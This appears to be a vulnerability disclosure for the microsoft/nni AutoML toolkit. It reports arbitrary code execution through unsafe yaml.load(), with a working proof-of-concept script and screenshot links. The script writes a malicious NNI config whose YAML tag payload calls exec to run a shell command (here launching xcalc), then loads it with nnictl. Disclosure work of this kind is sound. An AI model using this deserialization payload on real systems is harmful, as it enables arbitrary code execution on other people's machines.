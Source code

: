 # Description
**Arbitrary Code Excecution** in microsoft/nni.
An open source AutoML toolkit for automate machine learning lifecycle, including feature engineering, neural architecture search, model compression and hyper-parameter tuning.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os 

os.system('pip3 install nni')
exploit = """authorName: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
experimentName: example_mnist_pytorch
trialConcurrency: 1
maxExecDuration: 1h
maxTrialNum: 10
#choice: local, remote, pai
trainingServicePlatform: local
searchSpacePath: search_space.json
#choice: true, false
useAnnotation: false
tuner:
  #choice: TPE, Random, Anneal, Evolution, BatchTuner, MetisTuner, GPTuner
  #SMAC (SMAC should be installed through nnictl)
  builtinTunerName: TPE
  classArgs:
    #choice: maximize, minimize
    optimize_mode: maximize
trial:
  command: python3 mnist.py
  codeDir: .
  gpuNum: 0
"""
open('exploit.yml','w+').write(exploit)
os.system('nnictl create --config exploit.yml')
os.system('rm exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/785677515892981800/Screenshot_from_2020-12-08_06-50-12.png)
![](https://cdn.discordapp.com/attachments/749019614352244777/785677507818160198/Screenshot_from_2020-12-08_06-50-19.png)

